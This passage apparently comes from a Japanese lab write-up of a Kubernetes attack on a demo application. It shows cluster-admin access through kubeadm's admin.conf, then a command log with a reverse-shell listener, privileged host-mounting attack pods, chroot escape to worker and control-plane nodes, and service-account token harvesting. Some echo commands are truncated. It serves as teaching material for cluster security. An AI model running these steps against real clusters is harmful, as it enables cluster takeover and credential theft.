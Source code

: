 ## Kubernetes クラスタの Admin 権限取得

コントロールプレーンにはクラスタコンポーネントが認証に利用するさまざまなファイルが配置されています。今回はクラスタ構築時に kubeadm が利用する `admin.conf` を使い、Kubernetes の Admin 権限を取得することができました。

```bash
[control-plane]: ls /etc/kubernetes/
admin.conf  controller-manager.conf  kubelet.conf  manifests  pki  scheduler.conf  super-admin.conf

[control-plane]: kubectl auth whoami --kubeconfig /etc/kubernetes/admin.conf
Username    kubernetes-admin
Groups      [kubeadm:cluster-admins system:authenticated]

[control-plane]: kubectl get pod -A --kubeconfig /etc/kubernetes/admin.conf
AMESPACE            NAME                                                    READY   STATUS      RESTARTS        AGE
ingress-nginx        ingress-nginx-controller-74fd566899-zlrcx               1/1     Running     0               2d18h
kube-system          cilium-bxwpv                                            1/1     Running     0               2d18h
kube-system          cilium-j44r4                                            1/1     Running     0               2d18h
kube-system          cilium-ncsp5                                            1/1     Running     0               2d18h
kube-system          cilium-operator-9bfb5ffbd-klbnf                         1/1     Running     0               2d18h
kube-system          cilium-operator-9bfb5ffbd-wrspt                         1/1     Running     0               2d18h
kube-system          coredns-7db6d8ff4d-8f4ph                                1/1     Running     0               2d18h
...
```

![k8s-diagram-06](./images/k8s-diagram-06.png)


[attack-server]: ./curlshell.py --listen-port 1234
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: cd /tmp/
[unguard-proxy-service]: curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
[unguard-proxy-service]: chmod +x kubectl
[unguard-proxy-service]: echo "
[unguard-proxy-service]: ./kubectl auth whoami --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig | grep unguard
[unguard-proxy-service]: ./kubectl get po -A --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get no --kubeconfig kubeconfig
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-1 -- bash
[attack-pod-1]: cat /etc/hostname
[attack-pod-1]: ls /
[attack-pod-1]: ls /host-system
[attack-pod-1]: chroot /host-system bash
[worker-node]: cat /etc/hostname
[worker-node]: cd /tmp/
[worker-node]: crictl ps
[worker-node]: crictl inspect 9280e4f6f7f8f | grep -A 2 -m 1 /var/run/secrets/kubernetes.io/serviceaccount
[worker-node]: sa_path=/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66
[worker-node]: echo "
[worker-node]: kubectl auth whoami --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig kind-control-plane -o yaml
[worker-node]: exit
[attack-pod-1]: exit
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod2.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-2 -- bash
[attack-pod-2]: cat /etc/hostname
[attack-pod-2]: ls /
[attack-pod-2]: chroot /host-system bash
[control-plane]: cat /etc/hostname
